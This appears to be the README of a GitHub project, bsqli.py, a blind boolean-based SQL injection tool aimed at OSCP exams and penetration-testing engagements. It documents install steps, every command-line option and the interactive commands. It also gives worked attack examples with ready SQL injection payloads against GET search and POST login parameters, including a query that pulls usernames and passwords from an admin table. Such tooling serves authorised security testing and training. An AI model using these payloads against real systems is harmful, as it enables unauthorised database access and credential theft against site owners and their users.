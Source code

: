 # bsqli.py
A nifty little boolean-based blind SQLi script for OSCP and real-life engagements.

This tool abstracts the tedious process of brute-forcing strings; and is primarily used to enumerate metadata (SQL version, DB name, host name) and tables. For instance, there may be some juicy credentials residing in some user table. Or we may want to simply perform a Proof-of-Concept for a client by grabbing the version banner.

> [!WARNING]  
> This tool is intended for authorised and ethical purposes only. The developers of this tool are not liable for any damages, legal consequences, or loss of data resulting from the use or misuse of this tool. Users are solely responsible for ensuring compliance with applicable laws and regulations.

The internals are pretty simple, but packaged into a flexible ~~battlestation~~ interface. Basically, we run `ASCII(SUBSTRING(query, idx, 1))` to obtain the numeric value of each character, then use binary search to deduce each value. Binary search allows us to deduce ASCII characters within 7 tries, instead of a linear search of ~96 tries.

Similar techniques are executed by SQLmap, so this tool can be considered a subset. But unlike SQLmap, there is no automatic exploitation or discovery built in. Instead, the user is asked to manually test and specify the necessary parameters, including the DBMS, injected parameter, and boolean conditions. As long as you understand the basic idea, this tool should be safe to use during OSCP and CTFs.

## Install ##

This script requires Python 3.10+, requests, rich, and prompt_toolkit.

```shell
pip install requests rich prompt_toolkit
```

## Usage ##

1. Manually craft a Boolean-Based Blind SQLi PoC. The request should contain
   an SQLi payload with a condition (e.g. 1=1). There should be distinct
   responses between true and false responses, either in the status code or
   response body.

2. Separate the SQLi payload (e.g. `' or '1'='1`) from the GET/POST params,
   and replace it with `{payload}`. Move your payload to the `--payload`
   argument. We do this to easily differentiate the request and payload.

3. Separate the condition (e.g. 1=1, 1=0) from the SQLi payload, and replace
   it with `{cond}`. This will be substituted with URL-encoded SQLi
   conditions to be boolean-tested.

4. Instruct the script on how to distinguish between TRUE and FALSE
   responses. Use the -bts, -bfs, -bttc, -bftc flags to do this.

5. Optionally, if there is an error response (neither TRUE/FALSE), we can
   instruct the script to ignore the response (and consider as NULL or '?')
   using the -bes, -betc, and -betn flags.
   
   This is useful if the server sporadically returns 500 due to a forbidden
   character, an internal SQL error, or rate-limiting (in which case, turn
   down the number of threads).

6. To debug, turn on verbosity (-vv) to print the payload and conditions
   being tested.

## Options ##

```txt
options:
  -h, --help            show this help message and exit
  --docs                Extensive documentation on installation, usage, and examples. (default: False)
  -V, --version         Print script version (default: False)

  -u URL, --url URL     The url to scan, with the scheme (e.g. http://192.168.1.1/admin). Possibly
                        containing an injection point marked with `{payload}`. (default: None)
  --data DATA           Url-encoded data to send with the request. Possibly containing an injection
                        point marked with `{payload}`. (default: )
  -X {GET,POST}, --method {GET,POST}
                        GET or POST (default: GET)
  -H HEADER, --header HEADER
                        Extra headers to send with requests. (default: [])
  --timeout TIMEOUT     Timeout of each request. (default: 5)
  --payload PAYLOAD     The SQLi payload. (default: None)

  --proxy PROXY         Send requests to a proxy. Example: http://127.0.0.1:8080. (default: None)
  --follow-redirects    Follows redirects in responses. (default: False)
  --max-retries MAX_RETRIES
                        Maximum number of connection retries to attempt. (default: 3)

  --dbms {MySQL,SQLServer,SQLite,OracleSQL}
                        The database management system. (default: None)
  --strategy {B}        The strategy to use: Boolean. You don't have any other choice at this moment.
                        (default: B)
  -t THREADS, --threads THREADS
                        Number of threads to use. (default: 8)

  -v                    Verbosity. -v for INFO, -vv for DEBUG messages. (default: 0)

  -bts BOOLEAN_TRUE_IF_STATUS, --boolean-true-if-status BOOLEAN_TRUE_IF_STATUS
                        If the response returns the provided status, mark the response as TRUE. All
                        other statuses are FALSE. (default: None)
  -bfs BOOLEAN_FALSE_IF_STATUS, --boolean-false-if-status BOOLEAN_FALSE_IF_STATUS
                        If the response returns the provided status, mark the response as FALSE. All
                        other statuses are TRUE. (default: None)
  -bttc BOOLEAN_TRUE_IF_TEXT_CONTAINS, --boolean-true-if-text-contains BOOLEAN_TRUE_IF_TEXT_CONTAINS
                        If the response text contains the provided text, mark the response as TRUE.
                        Otherwise, FALSE. (default: None)
  -bftc BOOLEAN_FALSE_IF_TEXT_CONTAINS, --boolean-false-if-text-contains BOOLEAN_FALSE_IF_TEXT_CONTAINS
                        If the response text contains the provided text, mark the response as FALSE.
                        Otherwise, TRUE. (default: None)
  -bes BOOLEAN_ERROR_IF_STATUS, --boolean-error-if-status BOOLEAN_ERROR_IF_STATUS
                        If the provided statuses are encountered, mark the query as an error. Accepts
                        multiple arguments (e.g. -bes 400, -bes 401). (default: [])
  -betc BOOLEAN_ERROR_IF_TEXT_CONTAINS, --boolean-error-if-text-contains BOOLEAN_ERROR_IF_TEXT_CONTAINS
                        If the provided text is encountered in the response body, mark the query as an
                        error. Accepts multiple arguments. (default: [])
  -betn BOOLEAN_ERROR_IF_TEXT_NOT_CONTAINS, --boolean-error-if-text-not-contains BOOLEAN_ERROR_IF_TEXT_NOT_CONTAINS
                        If the provided text was NOT encountered in the response body, mark the query
                        as an error. Accepts multiple arguments. (default: [])

  --cast-to-string      Cast the target output to varchar(2048) string. This allows numbers to be
                        output as well, since normally we can't SUBSTRING a number. (default: False)
  --cast-to-string-length CAST_TO_STRING_LENGTH
                        The length of the string to cast to. If you specify this, you should also
                        enable --cast-to-string. (default: 2048)
```

   
## Interface ##

Upon entering the CLI, you have some options.

1. Run pre-baked commands.

   ```
   sqli> v
   sqli> u
   ```

    - v: version
    - u: current user
    - d: db name
    - h: host name
    - s: server name

2. Query table. This is a special pre-baked command which allows you to
   enumerate a table and their columns. This hasn't been optimised for
   different versions yet (as some versions have special functions which can
   expedite this process).

   ```
   sqli> t
   table> information_schema.tables
   col> table_name
   ```

   This essentially does a `SELECT table_name FROM
   information_schema.tables`, but with some scripting involved to
   calculate, say number of entries.

   Here's another example which allows you to exfiltrate multiple columns on each row in MySQL.

   ```
   sqli> t
   table> admin
   col> concat(id,0x7c,username,0x7c,password,0x7c,firstname,0x7c,lastname,0x7c,created_on)
   ```

3. Run a custom query.

   ```
   sqli> SELECT 1
   sqli> SELECT group_concat(column_name) FROM information_schema.columns WHERE table_name='admin'
   ```


## Examples ##

Here are some examples based on real-life engagements.

### Case 1: Exploiting an Injection Point in GET Parameters ###

Observations:

- Victim runs on MySQL. (--dbms MySQL)
- Server returns a 200 status with XML containing `404` if the SQLi is
  false. (-bftc 404)
- The server also returns 200 if the SQLi is true, so we can't distinguish
  based on status code.

Request:

```http
GET /find.php?search=%25'%20AND%20(1=1)%20AND'1%25'%3d'1 HTTP/1.1
Host: vulnerable.site


```

Command:

```shell
python bsqli.py \
    -u 'http://vulnerable.site/find.php?search={payload}' \
    -X GET \
    --payload $'%\' AND {cond} AND \'1%\'=\'1' \
    --dbms MySQL \
    -bftc 404
```

### Case 2: Exploiting an Injection Point in a POST Form ###

Observations:

- Victim runs on SQLServer (--dbms SQLServer)
- Injection is in POST data (-X POST --data ...)
- The server is pretty beefy and can handle a larger number of threads
  (-t 32)
- The server returns 302 if the SQLi is successful. (-bts 302)
  We'll use this to determine if a query resulted in TRUE/FALSE.
- The server returns 500 if an error occurred (e.g. forbidden character,
  SQL error). (-bes 500)
  We'll use this to catch and discard false positives.

Request:

```http
POST / HTTP/1.1
Host: vulnerable.site
Content-Length: ...
Content-Type: application/x-www-form-urlencoded

login=a&password='%20or%20(1=1)%20--%20
```

Command:

```shell
python bsqli.py \
    -u http://vulnerable.site/login.asp \
    -X POST \
    --data=$'login=a&password={payload}' \
    --payload=$'\' or {cond} -- ' \
    --dbms SQLServer \
    -t 32 \
    -bts 302 -bes 500
```
    
